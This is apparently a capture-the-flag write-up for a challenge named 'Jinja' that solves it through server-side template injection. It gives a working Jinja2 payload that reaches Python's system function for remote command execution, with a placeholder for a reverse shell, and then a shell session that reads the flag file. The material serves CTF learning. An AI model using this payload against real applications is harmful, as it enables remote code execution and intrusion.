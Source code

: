 # Jinja

Tag: `SSTI`

[http://h4ck3r.quest:8700](http://h4ck3r.quest:8700)

## Writeup

[Reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)

Trivial SSTI, proved by `{{7*7}}`.

Note that the payload executes system and renders the return value, so let's just get a reverse shell. I love shells, hooraay!

```python
{{ ''.__class__.__mro__[-1].__subclasses__()[132].__init__.__globals__['system']("your reverse shell syntax here") }}
```

Don't ask. It's all about MAGIC.

**You are Not Expected to Understand This**

```bash
I have no name!@0ee0ed23db04:/app$ ls
ls
2
main.py
uwsgi.ini
I have no name!@0ee0ed23db04:/app$ cd /
cd /
I have no name!@0ee0ed23db04:/$ ls
ls
app
bin
boot
dev
entrypoint.sh
etc
home
install-nginx-debian.sh
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
th1s_15_fl4ggggggg
tmp
usr
uwsgi-nginx-entrypoint.sh
var
I have no name!@0ee0ed23db04:/$ cat th1s_15_fl4ggggggg
cat th1s_15_fl4ggggggg
FLAG{ssti.__class__.__pwn__}I have no name!@0ee0ed23db04:/$ whoami
whoami
whoami: cannot find name for user ID 1000
I have no name!@0ee0ed23db04:/$ id
id
uid=1000 gid=1000 groups=1000
```
